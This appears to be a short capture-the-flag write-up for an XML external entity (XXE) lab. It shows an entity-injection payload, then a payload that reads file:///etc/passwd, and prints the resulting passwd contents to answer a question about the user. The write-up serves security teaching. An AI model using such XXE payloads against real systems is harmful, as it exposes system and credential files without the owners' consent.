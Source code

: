 1. Try to display your own name using any payload.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

`No answer needed`

2. See if you can read the /etc/passwd

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

`No answer needed`

3. What is the name of the user in /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```
